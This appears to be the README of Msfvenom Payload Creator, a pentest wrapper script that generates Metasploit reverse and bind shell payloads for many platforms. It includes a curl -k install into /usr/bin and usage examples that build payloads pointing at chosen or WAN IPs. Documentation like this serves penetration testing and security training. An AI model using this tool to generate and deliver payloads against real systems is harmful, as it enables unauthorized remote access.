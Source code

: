 A **quick** way to generate various "basic" Meterpreter payloads via `msfvenom` (part of the Metasploit framework).

![Msfvenom Payload Creator (MPC)](https://i.imgur.com/qxRwnYD.png)


- - -


## About

Msfvenom Payload Creator (MPC) is a wrapper to generate multiple types of payloads, based on users choice. The idea is to be as **simple as possible** (**only requiring one input**) to produce their payload.

**Fully automating** msfvenom & Metasploit is the end goal _(well as to be be able to automate MPC itself)_.
The rest is to make the user's life as **easy as possible** (e.g. **IP selection menu**, **msfconsole resource file/commands**, **batch payload production** and able to enter **any argument in any order** _(in various formats/patterns)_).

The only necessary input from the user should be **defining the payload** they want by either the **platform** (e.g. `windows`), or the **file extension** they wish the payload to have (e.g. `exe`).

* **Can't remember your IP for a interface? Don't sweat it, just use the interface name**: `eth0`.
* **Don't know what your external IP is? MPC will discover it**: `wan`.
* **Want to generate one of each payload? No issue!** Try: `loop`.
* **Want to mass create payloads? Everything? Or to filter your select? ..Either way, its not a problem**. Try: `batch` (for everything), `batch msf` (for every Meterpreter option), `batch staged` (for every staged payload), or `batch cmd stageless` (for every stageless command prompt)!

_Note: This will **NOT** try to bypass any anti-virus solutions at any stage._


## Install

+ Designed for **Kali Linux v2.x** & **Metasploit v4.11+**.
+ Kali v1.x should work.
+ OSX 10.11+ should work.
+ Weakerth4n 6+ should work.
+ _...nothing else has been tested._

```
curl -k -L "https://raw.githubusercontent.com/g0tmi1k/mpc/master/mpc.sh" > /usr/bin/mpc
chmod +x /usr/bin/mpc
mpc
```


## Help

```
root@kali:~# mpc -h -v
 [*] Msfvenom Payload Creator (MPC v1.4)

 /usr/bin/mpc <TYPE> (<DOMAIN/IP>) (<PORT>) (<CMD/MSF>) (<BIND/REVERSE>) (<STAGED/STAGELESS>) (<TCP/HTTP/HTTPS/FIND_PORT>) (<BATCH/LOOP>) (<VERBOSE>)
   Example: /usr/bin/mpc windows 192.168.1.10        # Windows & manual IP.
            /usr/bin/mpc elf bind eth0 4444          # Linux, eth0's IP & manual port.
            /usr/bin/mpc stageless cmd py https      # Python, stageless command prompt.
            /usr/bin/mpc verbose loop eth1           # A payload for every type, using eth1's IP.
            /usr/bin/mpc msf batch wan               # All possible Meterpreter payloads, using WAN IP.
            /usr/bin/mpc help verbose                # Help screen, with even more information.

 <TYPE>:
   + ASP
   + ASPX
```